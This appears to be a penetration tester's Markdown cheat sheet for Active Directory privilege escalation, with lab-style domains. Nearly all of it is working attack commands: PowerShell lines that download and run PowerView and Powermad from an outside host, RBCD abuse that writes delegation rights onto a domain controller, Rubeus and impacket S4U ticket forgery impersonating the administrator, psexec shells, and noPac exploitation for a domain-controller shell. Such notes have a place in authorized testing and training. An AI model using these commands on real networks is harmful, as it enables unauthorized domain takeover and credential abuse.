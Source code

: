 #### RBCD
https://github.com/Kevin-Robertson/Powermad
<br/>
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation

##### PowerShell
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerView.ps1')
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/Powermad.ps1')

New-MachineAccount -MachineAccount TEST -Password $(ConvertTo-SecureString 'Pass12345!' -AsPlainText -Force) -Verbose 
Get-DomainComputer TEST

$ComputerSid = Get-DomainComputer TEST -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# RBCD User etc GenericWrite
$credentials2 = New-Object System.Management.Automation.PSCredential "resourced\rbcd_user", (ConvertTo-SecureString 'rbcd_pass' -AsPlainText -Force)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose -Credential $credentials2

.\Rubeus.exe hash /user:TEST$ /password:'Pass12345!' /domain:resourced.local
.\Rubeus.exe s4u /user:TEST$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/dc01.resourced.local /ptt /nowrap /altservice:host,ldap,http,winrm,cifs

klist
ls \\msdsspn_fqdn\c$
```
##### Bash
```bash
impacket-addcomputer -computer-name 'TEST$' -computer-pass 'Pass12345!' -dc-ip 10.129.205.35 resourced.local/rbcd_user

impacket-rbcd -dc-ip 172.19.99.10 -delegate-from 'TEST$' -delegate-to 'TARGET$' -action 'write' -hashes :bb73d5056f1f2084e5b5bbe18261f6b6 'INLANEFREIGHT.local/TANGUI'
impacket-getST -spn cifs/DC01.resourced.local resourced.local/'TEST$':'Pass12345!' -impersonate administrator -dc-ip 192.168.171.175

# vim /etc/hosts DC01 (SPN)
KRB5CCNAME=./Administrator.ccache impacket-psexec -k -no-pass resourced.local/administrator@DC01.resourced.local
```

#### nopac
```bash
cd /opt/noPac
source ./venv/bin/activate

# scan
python3 scanner.py htb.local/svc_test:testpass -dc-ip 172.16.5.5 -use-ldap

#psexec
python3 noPac.py htb.local/svc_test:testpass -dc-ip 172.16.5.5  -dc-host DC01 -shell --impersonate administrator -use-ldap

# DCSync
```